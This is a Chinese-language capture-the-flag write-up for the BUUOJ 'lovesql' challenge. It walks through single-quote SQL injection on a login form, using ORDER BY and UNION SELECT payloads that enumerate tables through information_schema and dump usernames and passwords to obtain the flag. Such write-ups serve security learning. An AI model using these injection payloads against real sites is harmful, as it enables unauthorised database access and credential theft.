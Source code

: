 ### buuoj_[极客大挑战 2019]lovesql

进入界面，看了下源代码，没看出什么来，先试一下闭合方式

![](https://pic.imgdb.cn/item/60fac0935132923bf83448e2.jpg)

单引号闭合，试一下万能密码登陆

![](https://pic.imgdb.cn/item/60fac0bd5132923bf834cf6d.jpg)

成功了，测一下字段

```
1' order by 3#
1' order by 4#
```

![](https://pic.imgdb.cn/item/60fac12c5132923bf8362df7.jpg)

一共三个字段，测试一下显示位置

```
1' union select 1,2,3#
```

![](https://pic.imgdb.cn/item/60fac16e5132923bf8370188.jpg)

看这样子就差不多了，一套组合拳

```
1' union select 1,database(),3#-->geek
1' union select 1,group_concat(table_name) from information_schema.tables where table_schema="geek"#
```

![image-20210723212027041](C:\Users\EXCEPTION\AppData\Roaming\Typora\typora-user-images\image-20210723212027041.png)

```
1' union select 1,2,group_concat(column_name) from information_schema.columns where table_schema=database() and table_name='l0ve1ysq1'
```

![](https://pic.imgdb.cn/item/60fac26d5132923bf83a58e9.jpg)

```
1' union select 1,2,group_concat(id,username,password) from l0ve1ysq1#
```

![](https://pic.imgdb.cn/item/60fac2d35132923bf83bb221.jpg)

得到flag